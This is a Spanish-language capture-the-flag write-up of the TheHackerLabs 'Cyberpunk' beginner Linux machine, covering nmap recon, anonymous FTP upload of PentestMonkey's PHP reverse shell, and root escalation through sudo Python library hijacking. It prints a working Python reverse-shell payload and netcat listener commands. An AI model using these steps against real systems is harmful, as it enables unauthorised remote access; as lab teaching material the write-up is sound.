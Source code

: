 ```yaml
---
title: "TheHackerLabs - Principiante : [Cyberpunk]"
date: 2024-09-06 19:10:00 +0200
categories: [CTF, Writeups, TheHackerLabs, Linux, Principiante]
tags: [CTF, Writeups, TheHackerLabs, Linux, Principiante]
image: /img/posts/CTF/cyberpunk/image.png
---
```



## Introducción

Bienvenidos al desafío **"Cyberpunk - Relic Infiltration"**, un CTF basado en Linux para principiantes. Este writeup narramos paso a paso cómo se llevó a cabo la infiltración y explotación de vulnerabilidades, desde el reconocimiento inicial hasta la escalada de privilegios y obtención de acceso como **root**.

## Identificación de la Red

Empezamos identificando la IP de la máquina objetivo utilizando el comando `ip a` para verificar nuestra configuración de red y luego con `arp-scan` escaneamos la red local en busca de la IP de la máquina vulnerable.

```bash
❯ ip a
```


```bash
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    inet 10.0.2.5/24 brd 10.0.2.255 scope global dynamic noprefixroute eth0
```

Ahora ejecutamos `arp-scan` para identificar las máquinas en la red.

```bash
❯ arp-scan -I eth0 --localnet
```



```bash
10.0.2.8    08:00:27:43:1e:91   (Unknown)
```

## Escaneo de Puertos con Nmap

Procedemos con un escaneo completo de puertos utilizando `nmap` para identificar servicios expuestos.

```bash
❯ nmap -p- -Pn -n --min-rate 2000 10.0.2.8 -oG allports
```



```bash
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

Realizamos un escaneo más detallado en los puertos 21, 22 y 80.

```bash
❯ nmap -sSCV -p21,22,80 -vvv 10.0.2.8 -oN ports
```


Puerto 21 con acceso anónimo, un archivo `index.html`, y un archivo `secret.txt`. El puerto 80 presenta un servidor HTTP Apache.


## Acceso al FTP Anónimo

Nos conectamos al servicio FTP usando acceso anónimo.

```bash
❯ ftp anonymous@10.0.2.8
Password: 
ftp> ls
```

Archivos disponibles:

```bash
-rw-r--r--   1 0        0             713 May  1 14:55 index.html
-rw-r--r--   1 0        0             923 May  1 08:51 secret.txt
```

Descargamos y analizamos el archivo `secret.txt`:

```bash
❯ cat secret.txt
```

Contenido de `secret.txt`:

```r
*********************************************
*                                           *
*        Hola Netrunner,                    *
*                                           *
*   Has sido contratado por el mejor fixer  *
*   de la ciudad para llevar a cabo una     *
*   misión crucial.                         *
*                                           *
*   Tenemos información de que Arasaka,     *
*   la mega-corporación más poderosa de     *
*   Night City, está migrando sus sistemas  *
*   y actualmente parece ser vulnerable.    *
*                                           *
*   Necesitamos que te infiltres en sus     *
*   sistemas y desactives el Relic para     *
*   salvar la vida de V.                    *
*                                           *
*   Te espero en Apache.                    *
*                                           *
*                         - Alt             *
*********************************************
```

## Subida de Reverse Shell

Descargamos un reverse shell PHP desde el repositorio de PentestMonkey.

```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```

Subimos el archivo PHP al servidor a través de FTP.

```bash
ftp> put php-reverse-shell.php
```

## Ejecución de Reverse Shell

A continuación, accedemos al puerto HTTP para ejecutar el archivo `php-reverse-shell.php`. Nos conectamos a nuestra máquina a través de Netcat:

```bash
❯ nc -lnvp 443
# whoami
www-data
```

## Escalada de Privilegios

Exploramos el sistema y encontramos un archivo interesante en `/opt/arasaka.txt`, que contiene una cadena cifrada en **Brainfuck**.

```bash
++++++++++[>++++++++++>++++++++++++>++++++++++>++++++++++>+++++++++++>+++++++++++>++++++++++++>+++++++++++>+++++++++++>+++++>+++++>++++++<<<<<<<<<<<<-]>-.>+.>--.>+.>++++.>++.>---.>.>---.>.>--.>-----..
```

Desciframos la cadena y encontramos información útil. Nos autenticamos como el usuario `arasaka` y descubrimos que podemos ejecutar un script Python con privilegios de `root`.

```bash
sudo -u root /usr/bin/python3.11 /home/arasaka/randombase64.py
```

### Explotación de la Vulnerabilidad

Usamos **Python Library Hijacking** para obtener acceso como root modificando el script.

```python
import socket
import subprocess
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.0.2.5", 4443))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
subprocess.call(["/bin/sh", "-i"])
```

Nos conectamos nuevamente a través de Netcat, esta vez como **root**.

```bash
# whoami
root
```

## Conclusión

Al final del desafío, logramos infiltrarnos en los sistemas de Arasaka, desactivar el Relic y obtener acceso como root. Este writeup demuestra la importancia de la configuración adecuada de permisos y la protección de servicios expuestos.

Herramientas utilizadas:
- `nmap`
- `ftp`
- `netcat`
- `python`

Medidas de protección:
- Configuración correcta de permisos.
- Auditoría de servicios.
- Uso de autenticación multifactor para servicios sensibles.

¡Gracias por acompañarnos en este desafío!
